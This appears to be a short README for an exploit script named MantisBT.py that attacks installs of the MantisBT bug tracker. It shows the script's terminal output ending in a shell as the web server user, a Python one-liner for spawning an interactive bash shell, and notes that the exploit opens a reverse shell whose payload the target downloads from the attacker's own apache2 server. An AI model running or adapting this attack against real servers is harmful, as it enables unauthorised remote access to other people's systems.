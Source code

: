 # README

    root@ch3rn0byl:~/Desktop# python MantisBT.py 
    [+] Pew pew pewwwww!!!
    [+] Logging in...
    [+] Request: 200 OK
    [+] Sending payload...
    python -c 'import pty ; pty.spawn("/bin/bash")'
    www-data@ubuntu:/var/www/html/mantisbt$ 


This was on an install of Mantis. The paths may differ depending on how you set up soo change them!
It will present you an empty prompt, but you will be in shell :)
Just spawn a pty and you should be golden    

# Requirements
Also, this is using a reverse shell. 
So make sure that you have apache2 running because it will grab it from you    
